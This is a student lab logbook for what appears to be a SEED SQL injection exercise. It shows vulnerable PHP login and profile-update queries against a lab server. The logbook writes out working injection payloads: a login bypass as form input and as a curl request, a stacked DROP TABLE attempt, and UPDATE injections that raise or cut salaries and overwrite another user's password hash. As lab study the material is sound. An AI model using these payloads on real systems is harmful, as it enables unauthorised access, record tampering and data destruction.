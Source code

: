 # SQL Injection LogBook

This logbook pretends to documentante the work that was made in the SQL Injection lab, deduce some conclusions, identify the errors that were commited as well as to suggest the mosifications that would make the system secure to this type of attacks.


## Task 2

In this attack, we were presented to the php file that is being ran under the server side

```php
$input_uname = $_GET[’username’];
$input_pwd = $_GET[’Password’];
$hashed_pwd = sha1($input_pwd);
...
$sql = "SELECT id, name, eid, salary, birth, ssn, address, email,
               nickname, Password
        FROM credential
        WHERE name= ’$input_uname’ and Password=’$hashed_pwd’";
$result = $conn -> query($sql);


```

### Task 2.1 - Attack from webpage

Considering that we know the code, it is really easy to exploit this vulnerability:

`username: admin'; -- `


`password: <anything> `

This approach works, because the sql statement that will be queried to the database will be partionally connected and, with that, we can enter the system:

```sql
    SELECT id, name, eid, salary, birth, ssn, address, email,
               nickname, Password
        FROM credential
        WHERE name= ’admin’; -- and Password=’<anything>";
```

### Task 2.2 - Attack from command line

After that, the approach that was made was exaclty the same, but in the command line, it will go like this:

```sh
curl ’www.seed-server.com/unsafe_home.php?username=admin%27%20--%20&Password=<anything>’
```

This approach works and the justification is similar to task 2.1

### Task 2.3 - Append a new SQL statement

The next challange is to try to add a new sql statement in the project. Here is a way of how to do that:

`username: admin'; DROP TABLE credential; -- `


`password: <anything> `

This approach will lead to a query like this:

```sql
    SELECT id, name, eid, salary, birth, ssn, address, email,
               nickname, Password
        FROM credential
        WHERE name= ’admin’; DROP TABLE credential; -- and Password=’<anything>";
```

However, this query does not let to drop the table `creentia`. That occurs because the `$conn -> query($sql)` only executes the first query as a protection measure.

## Task 3

Here is the php code that executes the query that will update the database after editing the profile

```php
$hashed_pwd = sha1($input_pwd);
$sql = "UPDATE credential SET
   nickname=’$input_nickname’,
   email=’$input_email’,
   address=’$input_address’,
   Password=’$hashed_pwd’,
   PhoneNumber=’$input_phonenumber’
WHERE ID=$id;";
$conn->query($sql);
```

The form looks like this:

![Form2](images/LOGBOOK8/form2.png)

### Task 3.1 - Modify own salary

To do so, the parameters would be

`nickname: <nickname>', salary = 1000000 WHERE nickname = <nickname>; -- `

`email: <anything>`

`address: <anything>`

`password: <anything>`

`phone numer: <anything>`

With that, we reach the following sql code:

```sql
UPDATE credential SET
   nickname=’<nickname>’, salary = 1000000 WHERE nickname = <nickname>; -- email=’$input_email’, address=’$input_address’, Password=’$hashed_pwd’, PhoneNumber=’$input_phonenumber’ WHERE ID=$id;
```

### Task 3.2 - Reduce the Boby's salary

`nickname: Boby', salary = 1 WHERE nickname = Boby; -- `

`email: <anything>`

`address: <anything>`

`password: <anything>`

`phone numer: <anything>`

We reach the following query:

```sql
UPDATE credential SET
   nickname=’Boby’, salary = 1 WHERE nickname = Boby; -- email=’$input_email’, address=’$input_address’, Password=’$hashed_pwd’, PhoneNumber=’$input_phonenumber’ WHERE ID=$id;
```

### Task 3.3 - Modify other people’ password

For this example, assuming that we know that the password is hashed using the sha1 method, we can change the password manually. For instance, let's change the password of Boby to `banana`. If we consult [this site](http://www.sha1-online.com), we reach the hashed password, so we can see this:

`nickname: Boby', password = '250e77f12a5ab6972a0895d290c4792f0a326ea8' WHERE nickname = Boby; -- `

`email: <anything>`

`address: <anything>`

`password: <anything>`

`phone numer: <anything>`

```sql
UPDATE credential SET
   nickname=’Boby’, password = '250e77f12a5ab6972a0895d290c4792f0a326ea8' WHERE nickname = Boby; -- email=’$input_email’, address=’$input_address’, Password=’$hashed_pwd’, PhoneNumber=’$input_phonenumber’ WHERE ID=$id;
```

